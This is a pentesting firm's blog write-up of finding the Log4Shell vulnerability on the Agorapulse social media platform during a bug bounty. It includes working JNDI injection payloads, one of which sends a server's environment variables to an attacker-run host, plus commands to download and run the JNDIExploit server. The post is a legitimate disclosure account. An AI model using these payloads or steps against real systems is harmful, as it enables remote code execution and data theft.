 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. For example, if an attacker can inject malicious code into a Log4j logging statement, they can execute any arbitrary commands on the vulnerable server.

For more information on Log4j security, see the following resources:

- OWASP Log4j Cheat Sheet
- Log4j Vulnerabilities and Exposures
- Secure Log4j Usage

Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j 2 versions 2.0 to 2.14.1, as identified by Chen Zhaojun of the Alibaba Cloud Security Team. NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as CVE-2021–44228. Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## What is agorapulse:

Agorapulse basically provides everything an organization  could possibly need for social media marketing and monitoring and management.focusing on social media platforms like facebook,linkedin and twitter,agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar.The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability, Due to the fact that the vulnerability could be present on any endpoint, any request it was really hard to focus on one part of an application. So decided to scrap payloads all over the web application and wait for any pingbacks, To do that we We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used functionality-specific identifiers in the payloads. 

For example, We used 

If we were using a payload in profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in messege box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to indentify the vulnerable request to trigger the vulnerability.


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious coommands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}` .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}`, and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to burp collaborator Client you will see a Pingback on it

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of disruption in services. So, we decide to prove the impact by extacting the global PATH variable to prove the real impact of the vulnerability and we needed to setup and JNDI server for that, So we quickly setup an amazon ec2 and setup an JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and make a another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. And Hence no sensitive , Confidential or any information related to their users were extracted.


## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a on the same day and rewarded our finding.

After their fix was implemented we , The team requested an re-check on the vulnerability and we tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.

  
  


## About us

Snapsec is a team of security experts specialized in providing pentesting and other security services to secure your online assets. We have a specialized testing methodology that ensures in-depth testing of your business logic and other latest vulnerabilities. 

 If you are looking for a team that values your security and ensures that you are fully secure against online security threats, feel free to get in touch with us #[support@snapsec.co](mailto:support@snapsec.co)
 
 
